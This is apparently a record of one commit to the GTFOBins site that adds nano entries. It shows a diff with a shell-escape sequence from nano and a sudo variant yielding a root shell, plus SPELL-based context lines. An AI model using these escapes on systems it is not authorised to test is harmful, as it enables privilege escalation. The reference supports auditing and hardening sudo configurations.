

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nano.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add new shell and sudo payload to nano
Thanks to https://twitter.com/TheKnapsy/status/1093137518780854273.

```diff
--- a/_gtfobins/nano.md
+++ b/_gtfobins/nano.md
@@ -1,6 +1,10 @@
 ---
 functions:
   shell:
+    - code: |
+        nano
+        ^R^X
+        reset; sh 1>&0 2>&0
     - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
       code: |
         TF=$(mktemp)
@@ -24,6 +28,10 @@ functions:
         ./nano -s $TF /etc/hosts
         ^T
   sudo:
+    - code: |
+        sudo nano
+        ^R^X
+        reset; sh 1>&0 2>&0
     - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
       code: |
         TF=$(mktemp)
```
